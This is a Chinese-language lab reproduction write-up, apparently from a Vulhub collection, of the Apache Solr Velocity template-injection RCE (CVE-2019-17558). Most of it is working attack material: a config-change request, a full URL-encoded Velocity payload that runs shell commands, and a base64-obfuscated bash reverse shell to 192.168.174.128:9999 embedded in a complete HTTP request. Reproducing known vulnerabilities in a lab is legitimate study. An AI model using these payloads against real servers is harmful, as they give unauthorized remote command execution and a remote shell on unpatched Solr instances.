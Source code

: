 # Apache Solr Velocity 注入远程命令执行漏洞  CVE-2019-17558

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。

在其 5.0.0 到 8.3.1版本中，用户可以注入自定义模板，通过Velocity模板语言执行任意命令。

具体漏洞原理和POC可以参考：

- https://nvd.nist.gov/vuln/detail/CVE-2019-17558
- https://issues.apache.org/jira/browse/SOLR-13971
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133
- https://github.com/jas502n/solr_rce

## 漏洞影响

```
Apache Solr 5.x 至 8.2.0
```

## 环境搭建

Vulhub执行如下命令启动一个Apache Solr 8.2.0服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到一个无需权限的Apache Solr服务。

## 漏洞复现

默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模板。我们先通过如下API获取所有的核心：

```
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

Vulhub里唯一的核心是`demo`：

![image-20220301131203531](images/202203011312586.png)

通过如下请求开启`params.resource.loader.enabled`，其中API路径包含刚才获取的core名称：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

![image-20220301131312106](images/202203011313182.png)

之后，注入Velocity模板即可执行任意命令：

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![image-20220301131516198](images/202203011315268.png)

成功执行`id`命令：

![image-20220301131436306](images/202203011314342.png)

构造反弹shell的POC（前后双引号也可以，编码是`%22`）：

```
'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}'

# URL编码后
%27bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%27
```

请求包如下：

```
GET /solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: your-vps-ip:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

成功接收反弹shell：

![image-20220301131830036](images/202203011318131.png)